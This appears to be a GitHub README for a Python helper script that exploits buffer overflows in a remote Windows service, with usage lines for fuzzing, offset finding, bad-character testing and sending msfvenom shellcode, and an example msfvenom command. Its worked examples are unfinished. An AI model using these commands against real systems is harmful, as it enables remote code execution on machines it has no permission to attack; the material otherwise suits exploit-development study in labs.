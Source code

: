 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig_buffer_overflow.py test remoteHost remotePort buffSize buffHead
./ig_buffer_overflow.py test 10.2.31.155 2050 4096 'cmd /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig_buffer_overflow.py cyclic remoteHost remotePort buffSize buffHead
./ig_buffer_overflow.py cyclic 10.2.31.155 2050 4096 'cmd /.:/'
```

write - Writes hex value to buffer offset
```
./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badAfter excludeChars
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 badAfter 000a

./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badBefore reverseJmpSize excludeChars
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 badBefore 800 000a
```

exploit - Sends malicious payload via buffer overflow
```
./ig_buffer_overflow.py exploit remoteHost remotePort buffSize buffHead offset hexcontent reverseJmpSize shellCodeFile [nops]
./ig_buffer_overflow.py exploit 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 800 payload 2
```

## Parameters:
* [mode] : Script modes: test|cyclic|write|exploit
* remoteHost : Remote host IP.
* remotePort : Remote host port.
* buffSize : Amount of bytes to send.
* buffHead : Static buffer string set at the beginning of the buffer. Is usually the crash string. Size is considered in buffSize calc.
* offset : Place in buffer where content can be added.
* hexcontent	: Hex string to add at the offset position. Can be considered as big endian (default) or little endian (will be reversed). Use 'g' or 'l' to delimit the order. Examples:
  * 'g01020304l05060708' --> will send '0102030408070605'
  * '01020304' --> will send '01020304'
* bad* : Adds bad chars before (badBefore) or after (badAfter) the content. Used for bad char testing.
* excludeChars : List of chars (formatted as hex string) to be excluded from badchar list. Example: 000a excludes badchars '00' and '0a'.
* reverseJmpSize : Size in bytes to jump before the content to inject bad chars or the shell code.
* shellCodeFile : Python shell code file generated using msfvenom. Do NOT include the .py extension in the parameter.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python -v payload EXITFUNC=thread -o shellCodeFile
* nops : Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

TODO

## SEH Overwrite example

TODO

## Egg Hunting example

TODO
